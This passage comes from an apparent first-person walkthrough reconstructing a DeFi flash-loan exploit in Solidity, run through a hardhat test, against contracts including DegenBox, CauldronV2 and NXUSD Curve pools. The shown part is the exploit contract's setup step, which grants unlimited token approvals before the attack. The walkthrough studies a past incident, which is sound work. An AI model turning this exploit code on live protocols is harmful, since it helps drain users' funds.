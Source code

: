   <span style="color:rgb(234, 183, 0); font-weight:400;">function</span> exploit() public {}
}</code></pre>

I get access to all the required contracts and store them in the storage variables. The interfaces are defined in the real exploit script linked above.

The `exploit()` function is what the `hardhat` test calls to start the exploit.

### Step 1: Approving the required contracts

First, I'll approve multiple contracts to spend multiple tokens on my behalf. This lets those contracts transfer these tokens out of my contract, which is required for a lot of the upcoming steps:

<pre>
 <code id="htmlViewer" style="color:rgb(77, 77, 76); font-weight:400;background-color:rgb(255, 255, 255);background:rgb(255, 255, 255);display:block;padding: .5em;">function exploit() public {
  <span style="color:rgb(142, 144, 140); font-weight:400;">// Approve USDC and WAVAX on the Trader Joe router</span>
  usdc<span style="color:rgb(200, 40, 41); font-weight:400;">.approve</span>(address(router), type(uint256)<span style="color:rgb(200, 40, 41); font-weight:400;">.max</span>);
  wavax<span style="color:rgb(200, 40, 41); font-weight:400;">.approve</span>(address(router), type(uint256)<span style="color:rgb(200, 40, 41); font-weight:400;">.max</span>);

  <span style="color:rgb(142, 144, 140); font-weight:400;">// Approve USDC for the flash loaner pool so it can make us repay the</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// flashloan</span>
  usdc<span style="color:rgb(200, 40, 41); font-weight:400;">.approve</span>(address(flashLoaner), type(uint256)<span style="color:rgb(200, 40, 41); font-weight:400;">.max</span>);

  <span style="color:rgb(142, 144, 140); font-weight:400;">// Approve WAVAX/USDC LP tokens for the DegenBox so it lets us deposit</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// to it</span>
  wavaxusdc<span style="color:rgb(200, 40, 41); font-weight:400;">.approve</span>(address(degenbox), type(uint256)<span style="color:rgb(200, 40, 41); font-weight:400;">.max</span>);

  <span style="color:rgb(142, 144, 140); font-weight:400;">// Approve NXUSD for the CurveMeta contract so it can take it from us when</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// we attempt to exchange NXUSD</span>
  nxusd<span style="color:rgb(200, 40, 41); font-weight:400;">.approve</span>(address(curvemeta), type(uint256)<span style="color:rgb(200, 40, 41); font-weight:400;">.max</span>);

  <span style="color:rgb(142, 144, 140); font-weight:400;">// Approve USDC.e for the USDC.e - USDC stable swap curve pool so we can</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// exchange our USDC.e for USDC in the end</span>
  usdce<span style="color:rgb(200, 40, 41); font-weight:400;">.approve</span>(address(usdceusdc), type(uint256)<span style="color:rgb(200, 40, 41); font-weight:400;">.max</span>);

  <span style="color:rgb(142, 144, 140); font-weight:400;">// Approve USDC.e for the Trader Joe router for the same reason above</span>
  usdce<span style="color:rgb(200, 40, 41); font-weight:400;">.approve</span>(address(router), type(uint256)<span style="color:rgb(200, 40, 41); font-weight:400;">.max</span>);

  <span style="color:rgb(142, 144, 140); font-weight:400;">// Allow the CauldronV2 master contract to make transactions (i.e decisions)</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// for us. This is required when we attempt to borrow NXUSD, as we have</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// to make calls to the CauldronV2 contract and allow it to make calls to</span>
  <span style="color:rgb(142, 144, 140); font-weight:400;">// the DegenBox contract for us.</span>
  degenbox<span style="color:rgb(200, 40, 41); font-weight:400;">.setMasterContractApproval</span>(address(this), masterCauldron, true, 0, 0, 0);
}</code></pre>
